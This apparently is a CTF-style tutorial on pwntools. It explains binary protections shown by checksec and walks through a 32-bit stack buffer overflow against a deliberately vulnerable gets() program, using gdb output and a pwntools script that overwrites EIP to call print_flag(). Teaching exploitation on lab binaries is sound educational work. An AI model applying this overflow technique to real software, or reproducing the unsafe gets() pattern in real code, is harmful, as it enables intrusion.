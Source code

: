# Intro to Pwntools


## Introduction
- Pwntools is a CTF framework and exploit development library
- [Pwntools github](https://github.com/Gallopsled/pwntools)

## Checksec
- Run checksec on the binaries
```
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/checksec$ checksec intro2pwn1
[*] '/home/buzz/IntroToPwntools/IntroToPwntools/checksec/intro2pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/checksec$ checksec intro2pwn2
[*] '/home/buzz/IntroToPwntools/IntroToPwntools/checksec/intro2pwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
- RELRO - Relocation Read-Only
	- Makes the global offset table (GOT) read-only after the linker resolves functions to it
	- GOT is important for techniques like the ret-to-libc attack
	- [Resource](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro)
- Stack canaries - tokens placed after a stack to detect a stack overflow
	- Sit beside the stack in the memory - where program variables are stored - and if there is a stack overflow then the stack canary will be corrupted
	- [Resource](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)
- NX - non-executable
	- If enabled, then memory segments can be either writable or executable, but not both
	- Stops potential attackers from injecting their own malicious code (shellcode) into the program, because something in a writable segment cannot be executed
	- [Resource](https://en.wikipedia.org/wiki/Executable_space_protection)
- PIE - Position independent executable
	- Loads the program dependencies into random locations, so attacks that rely on memory layout are more difficult to conduct
	- [Resource](https://www.redhat.com/en/blog/position-independent-executables-pie)
- [Overview resource](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)
- Causing a buffer overflow in each of the binaries has a different result depending on whether it has canaries or not
```
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/checksec$ ./intro2pwn1
Please input your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/checksec$ ./intro2pwn2
Please input your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Segmentation fault (core dumped)
```

## Cyclic
- The binary is vulnerable to buffer overflow because of `gets()`
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void print_flag() {
        printf("Getting Flag:\n");
        fflush(stdout);
        char *cat_flag[3] = {"/bin/cat", "flag.txt", NULL};
        execve("/bin/cat", cat_flag,  NULL);
        exit(0);
}

void start(){
        char name[24];
        gets(name);
}


int main(){
        printf("I run as dizmas.\n");
        printf("Who are you?: ");
        start();

}
```
- `print_flag()` isn't being called, so we can overwrite the instruction pointer - called eip on 32 bit machines and rip on 64 bit machines - and make it point to the `print_flag()` function
- Open the binary with gdb and run it with the text in the `alphabet` file as input. This causes a buffer overflow because the text in the file is longer than 24 bytes, and the eip register is overwritten with `0x4a4a4a4a`
```
pwndbg> r < alphabet
Starting program: /home/buzz/IntroToPwntools/IntroToPwntools/cyclic/intro2pwn3 < alphabet
I run as dizmas.

Program received signal SIGSEGV, Segmentation fault.
0x4a4a4a4a in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 EAX  0xff807408 \u25c2\u2014 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
 EBX  0x48484848 ('HHHH')
 ECX  0xf7f915c0 (_IO_2_1_stdin_) \u25c2\u2014 0xfbad2088
 EDX  0xf7f9289c (_IO_stdfile_0_lock) \u25c2\u2014 0x0
 EDI  0x0
 ESI  0xf7f91000 (_GLOBAL_OFFSET_TABLE_) \u25c2\u2014 0x1d7d8c
 EBP  0x49494949 ('IIII')
 ESP  0xff807430 \u25c2\u2014 'KKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
 EIP  0x4a4a4a4a ('JJJJ')
Invalid address 0x4a4a4a4a

00:0000\u2502 esp 0xff807430 \u25c2\u2014 'KKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
01:0004\u2502     0xff807434 \u25c2\u2014 'LLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
02:0008\u2502     0xff807438 \u25c2\u2014 'MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
03:000c\u2502     0xff80743c \u25c2\u2014 'NNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
04:0010\u2502     0xff807440 \u25c2\u2014 'OOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
05:0014\u2502     0xff807444 \u25c2\u2014 'PPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
06:0018\u2502     0xff807448 \u25c2\u2014 'QQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'
07:001c\u2502     0xff80744c \u25c2\u2014 'RRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'

 \u25ba f 0 0x4a4a4a4a
   f 1 0x4b4b4b4b
   f 2 0x4c4c4c4c
   f 3 0x4d4d4d4d
   f 4 0x4e4e4e4e
   f 5 0x4f4f4f4f
   f 6 0x50505050
   f 7 0x51515151
```
- To make it easier to work with buffer overflows, we can use the `cyclic` tool
	- `cyclic 100` will create 100 characters
```
We can now begin to develop our exploit. To use pwntools in a python file, create a python file (mine is pwn_cyclic.py) and import the pwntools module at the top of the file:

from pwn import *

We can then use the cyclic function within the python code:

padding = cyclic(100)

Our padding is the space we need to get to the eip, so 100 is not the number we need. We need our padding to stop right before 'jaaa' so that we can fill in the eip with our own input. Luckily, there is a function in pwntools called cyclic_find(), which will find this automatically. Please replace the 100 with cyclic_find('jaaa'):

padding = cyclic(cyclic_find('jaaa'))

What do we fill the eip with? For now, to make sure we have the padding correct, we should fill it with a dummy value, like 0xdeadbeef. We cannot, of course, simply write "0xdeadbeef" as a string, because the computer would interpret it as ascii, and we need it as raw hex. Pwntools offers an easy way to do this, with the p32() function (and p64 for 64-bit programs). This is similar to the struct.pack() function, if you have ever used it. We can add this to our code:

eip = p32(0xdeadbeef)

Now our entire code should look like this:

from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)

Please run the file with python (not python3!) and output to a text file (my python file is called pwn_cyclic.py and my text file is called attack).

python pwn_cyclic.py > attack

Run this new text file as input to intro2pwn3 in gdb, and make sure that you get an invalid address at 0xdeadbeef. Please answer question 6.

The last thing we need to do is find the location of the print_flag() function. To find the print_flag() funtion, type this command into gdb:

print& print_flag

For me, the print_flag() function is at 0x8048536, please check to see if it is the same for you.

Replace the 0xdeadbeef in your code with the location of the print_flag function. Once, again, we can run:

python pwn_cyclic.py > attack

Input the attack file into the intro2pwn3 binary in the command line (because gdb will not use the suid permissions), like this:

./intro2pwn3 < attack
```

